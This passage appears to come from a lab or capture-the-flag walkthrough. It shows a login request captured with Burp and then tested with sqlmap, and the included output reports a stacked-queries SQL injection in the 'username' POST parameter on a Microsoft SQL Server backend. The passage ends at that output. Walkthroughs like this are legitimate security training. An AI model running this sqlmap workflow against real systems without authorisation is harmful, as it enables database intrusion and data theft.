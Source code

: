 ![](images/image01.png)

We can use Burp to intercept a login attempt and save it to a file where we will use sqlmap to check for sql injections:
![](images/image02.png)

SQL injection found in `username` parameter:
```bash
$ sqlmap -r login.req --batch --force-ssl

...[SNIP]...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N                                                        
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:                                                                  
---                                                                                                                                                      
Parameter: username (POST)                                                                                                                               
    Type: stacked queries                                                                                                                                
    Title: Microsoft SQL Server/Sybase stacked queries (comment)                                                                                         
```